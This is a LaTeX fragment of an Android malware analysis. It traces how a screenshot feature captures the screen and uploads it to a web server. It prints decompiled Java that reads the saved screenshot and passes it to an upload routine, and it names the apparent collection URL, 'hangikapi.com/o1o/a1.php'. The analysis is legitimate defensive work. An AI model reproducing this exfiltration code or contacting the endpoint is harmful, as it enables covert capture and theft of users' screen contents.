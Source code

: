 \documentclass[10pt,titlepage]{article}
\begin{document}
Meanwhile the Service \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC} will be started which is intended to send the image to a Web server. The function \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC.onHandleIntent}
reads the image from disk and passes it together with the target url into the function \textit{intR.fddo} (see Listing \ref{servicesendrequestimageonhandleintent}).

\begin{lstlisting}[label=servicesendrequestimageonhandleintent,caption=The function \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceSendRequestImageVNC.onHandleIntent} writes the file to disk as well as invokes the \textit{naqsl.ebxcb.exu.Cint.fddo()} function which is inteded to send the data to a Web server.,frame=tb]
    public void onHandleIntent(Intent intent) {
        Cint intR = new Cint();
        String str = "vnc";
        String str2 = "stop";
        String str3 = "";
        String str4 = "websocket";
        [...]
                byte[] ifdf = Cint.ifdf(
                                  new File(getExternalFilesDir(null), "screenshot.jpg"));
                StringBuilder sb = new StringBuilder();
                sb.append(this.f556fddo);
                sb.append(".jpg");
                intR.fddo((Context) this, ifdf, sb.toString());
\end{lstlisting}

The \textit{naqsl.ebxcb.exu.Cint.fddo()} builds the target url (in this test case: "http://hangikapi.com/o1o/a1.php") and passes some additional parameters to the \textit{java.net.HttpURLConnection}. After the header and other information was sent the image data will transfered with the call \textit{        dataOutputStream.write(bArr);} (see Listing \ref{screenshotupload}).

This is the full flow of the Screenshot malware feature.
\end{document}
